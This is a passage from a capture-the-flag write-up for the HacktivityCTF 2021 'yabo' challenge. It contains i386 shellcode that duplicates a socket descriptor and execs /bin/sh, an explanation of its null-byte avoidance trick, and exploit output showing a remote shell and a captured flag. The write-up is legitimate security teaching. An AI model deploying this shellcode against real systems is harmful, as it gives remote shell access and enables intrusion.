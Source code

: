 ```python
inc ecx
push {constants.SYS_dup2}
pop eax
int 0x80

/* shell */

mov ebx, {'-0x' + hexlify(arg0[4:][::-1]).decode()}     # because of nulls set a neg, then use neg, then push to stack
neg ebx
push ebx
push {'0x' + hexlify(arg0[0:4][::-1]).decode()}         # rest of path
mov ebx, esp
xor ecx, ecx                                            # ecx = 0
xor edx, edx                                            # edx = 0
push {constants.SYS_execve}
pop eax
int 0x80
''')
```

> [`exploit2.py`](exploit2.py) is identical to [`exploit3.py`](exploit3.py) above except the three sections above (`from ...`, `arg0 = ...`, and the `shellcode`).

I'll just focus on the shellcode.

The shellcode has three sections (ripped off from [shellcode-881.php](http://shell-storm.org/shellcode/files/shellcode-881.php)):

1. This section will use `dup(2)` to get the next FD, then decrement it to figure out that FD of `4`.  I like this approach if you have the space.  No need to hardcode. (If you've read many of my write ups I try very hard to not hard code anything, but I too can get lazy).
2. This section does that FD duplication described above in Solution 3.
3. This section is your standard fare get a shell shellcode with `execve` however instead of hardcoding `//bin/sh` so that you're stack aligned (assuming you `xor eax, eax; push eax` first to terminate your string), I went with something computer generated using the `arg0` above.  Now if I'd just used `/bin/sh` (7 bytes) I would have had a null as the MSB (most significant byte) and that would terminate the `strcpy`.  The trick is to send the negative then `neg` in your shellcode.  And I do not need to `xor eax, eax; push eax` to terminate the string since `/bin/sh` is already terminated (it's only 7 bytes).  Is this better?  No, just, IMHO, more readable and adaptable for other challenges.

I'm not going to explain the assembly language here.  IMHO it is very readable as is, but if you cannot read it, then google for each op code, or watch a YouTube video on Linux assembly language.  The stuff above will take you an hour to learn.  After that just start reading others shellcode.

Output:

```
# ./exploit2.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/yabo/yabo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.ctf.games on port 32332: Done
[*] len(shellcode): 54
[*] Switching to interactive mode
$ cat flag.txt
flag{2f20f16416a066ca5d4247a438403f21}
```
